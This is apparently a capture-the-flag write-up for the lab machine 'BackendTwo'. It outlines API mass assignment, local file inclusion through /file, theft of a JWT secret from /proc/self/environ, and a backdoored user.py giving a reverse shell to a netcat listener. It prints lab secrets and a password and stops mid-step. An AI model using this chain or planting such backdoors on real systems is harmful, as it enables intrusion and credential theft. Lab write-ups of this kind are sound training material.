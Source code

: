 # BackendTwo

---

## Enumeration

- nmap TCP scan:

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp open  http    uvicorn
```

- Enumerated users, found a bunch
- Found a register/login API, registered a user and got access token
- Token can be used in `Authorization: Bearer <TOKEN>` header
- Password change API is vulnerable to mass assignment

---

## Foothold

- After changing my user to a superuser, I got the user flag
- Used `/file` API call to read local files
- With this LFI I read the application source code and by getting `/proc/self/environ`, i got the `API_KEY` which is the JWT secret key
- `API_KEY=68b329da9893e34099c7d8ad5cb9c940`
- Updated `user.py` to plant a backdoor there to get a revshell on port 9000

```bash
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.162] 41348
bash: cannot set terminal process group (685): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb@BackendTwo:~$
```

---


## PrivEsc

- pw: `1qaz2wsx_htb!`
- Wordle brute-force??
- Got the words from `/etc/pam.d/sudo` found a `.so` file for this wordle, and got the wordlist used in `/opt/.words`
- with the previous password `sudo su`, 
